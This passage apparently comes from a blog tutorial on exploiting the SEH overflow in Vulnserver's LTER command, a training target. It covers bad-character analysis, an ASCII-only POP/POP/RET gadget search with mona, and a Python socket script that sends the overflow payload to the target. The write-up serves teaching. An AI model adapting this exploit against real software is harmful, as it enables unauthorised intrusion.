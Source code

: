 ``` text
.-----------------------------------------------------
0   0   125 125 | 01 ... 7f | 01 ... 7f | unmodified!
.-----------------------------------------------------
125 125 128 128 | 80 ... ff | 01 ... 80 | corrupted

Possibly bad chars: 80
Bytes omitted from input: 00 0a 0d
```

That’s a lot of very valuable information for us. Now it’s clear why our
previously injected address `625010B4` was translated to `62501035`.

## Allowed charset

In the previous section, we were able to narrow the character set that
was allowed for us to inject code. The characters range from hex `0x1`
to `0x7f`, excluding `0xa` and `0xd`. That range belongs to what’s known
as the ASCII character set. In Linux, you can see the ASCII table using
the command `man 7 ascii`. However, a simple search on Google will give
thousands of results.

This means that for now on, we are limited to work with that set of
characters.

The first thing we need to do is to search another `POP/POP/RET` gadget
on a pointer that contains only bytes allowed on our character set. To
do that, we can issue another command filtering the `POP/POP/RET`
gadgets containing only ASCII bytes and excluding `0xa` and `0xd`:

``` console
!mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x0a\x0d'
```

Fortunately for us, 3 pointers fulfill all our requirements:

<div class="imgblock">

![ASCII POP/POP/RET](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331206/blog/vulnserver-lter-seh/ascii-poppopret1_gliml7.webp)

</div>

Let’s choose the first result at `6250172B` and update our exploit:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
